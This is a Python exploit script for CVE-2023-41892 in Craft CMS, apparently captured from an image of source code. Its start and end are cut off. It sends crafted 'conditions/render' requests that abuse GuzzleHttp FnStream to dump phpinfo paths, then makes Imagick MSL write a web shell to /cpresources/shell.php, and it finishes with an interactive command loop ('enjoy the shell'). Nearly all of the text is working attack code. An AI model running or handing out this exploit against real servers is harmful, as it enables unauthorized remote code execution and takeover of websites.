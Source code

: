 ```
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data)

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
   
    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    return match1.group(1), match2.group(1)

def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data)    

def shell(cmd):
    response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text

if __name__ == "__main__":
    if(len(sys.argv) != 2):
        print("Usage: python CVE-2023-41892.py <url>")
        exit()
    else:
        url = sys.argv[1]
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
        tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
            trigerImagick(tmpDir)
        except:
            pass

        print("[-] Done, enjoy the shell")
        while True:
            cmd = input("$ ")
```